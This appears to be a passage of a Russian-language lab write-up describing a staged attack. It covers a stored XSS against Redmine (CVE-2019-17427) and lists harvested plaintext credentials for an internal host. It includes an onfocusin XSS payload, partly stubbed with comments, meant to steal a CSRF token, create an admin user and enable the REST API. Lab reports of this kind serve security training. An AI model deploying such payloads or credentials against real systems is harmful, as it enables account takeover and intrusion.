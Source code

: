 ### Извлеченные данные:
```
URL: http://redmine.ampire.corp/
Username: dev1
Password: qwe123!@#
```

# Этап 3: Атака XSS на Redmine (CVE-2019-17427)

## Внедрение вредоносного кода

С Manager Workstation была проведена XSS атака на Redmine. показана wiki страница с внедренным payload:

![Wiki страница с XSS payload](image/7.png){#fig:007 width=100%}

## Внедрение вредоносного кода

Исходный код страницы с вредоносным JavaScript представлен на:

![Исходный код страницы с вредоносным JavaScript](image/9.png){#fig:009 width=100%}

## XSS Payload:

```html
<pre onfocusin="let xhr=new XMLHttpRequest;
xhr.onreadystatechange=function(){
  if(4===xhr.readyState){
    // Извлечение CSRF токена
    // Создание admin пользователя "hacker"
    // Включение REST API
  }
},
xhr.open('GET','http://redmine.ampire.corp/settings?tab=api'),
xhr.send();" tabindex=1>
```
